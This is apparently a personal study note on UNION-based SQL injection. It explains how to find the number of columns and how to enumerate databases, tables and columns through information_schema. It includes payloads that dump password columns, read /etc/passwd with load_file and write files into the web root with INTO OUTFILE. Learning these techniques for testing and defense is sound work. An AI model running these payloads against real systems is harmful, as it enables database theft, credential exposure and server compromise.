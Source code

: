 ```yaml
---
title: UNION based (In-band) Injection
---
```


They can be used to combine of output of two SELECT statements
This method only works if the number of columns in both the statements are the same

````sql
SELECT * FROM login 
UNION 
SELECT 1, 2, 3;
````

In place of numbers we can use SQL functions

````sql
SELECT * FROM login 
UNION 
SELECT database(), user(), version();
````

#### Finding Number of Columns

1. <u>Brute Force Approach</u>

We can try different number of columns till we find the result that works
union select 1# (Error)
union select 1,2# (Error)

2. <u>ORBER BY Clause</u>

We cause the query `ORBER BY 20#` and see if we get error if so there are less an 20 columns
Then we try 10. If no error which means there are either exactly 10 or more than 10 columns
No we can try values between 10 and 20 till be find the no. of columns

 > [!NOTE]
 > Not all columns from the DB are going to be present in output. Only the fields that are fetched from the DB can be used for fetching information

#### Finding Tables Names and Column Values

1. <u>View DB Names</u>

The "schema_name" column consist of the DB names

````sql
SELECT schema_name 
FROM information_schema.schemata;
````

So we can used "schema_name" to find all the DB

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), schema_name, version() 
FROM information_schema.schemata;#
````

2. <u>View Table Names in DB</u>

The "table_name" column consist of the table name

````sql
SELECT table_name 
FROM information_schema.tables 
WHERE table_schema="<db-name>";
````

Now we can view all the tables in the DB using the following

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), table_name, version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

The `group_concat()` function will show all the results as an single string

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), group_concat(table_name), version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

3. <u>Table Column Names</u>

The "column_name" filed consist of the column names of the table

````sql
SELECT column_name 
FROM information_schema.columns 
WHERE table_name='<table-name>';
````

The columns of the table can be viewed as follows

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), column_name, version() 
FROM information_schema.columns 
WHERE table_name='<table-name>';#
````

4. <u>View Data from Columns</u>

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, id, 8, password, column_name, version 
FROM <table-name>;#
````

#### Reading and Writing Files to Server

1. <u>Reading Data from File</u>

Load File can be used to load files on Server

````sql
UNION 
SELECT 1, load_file('/etc/passwd'), null, null;#
````

2. <u>Writing Data to File</u>

Outfile command can be used to write data to a file on the server

````sql
UNION 
SELECT null, 'example text', null, null INTO OUTFILE '/var/www/example.txt';#
````

For reading and writing to the server we need to have the right permissions so only works if the permissions are miss configured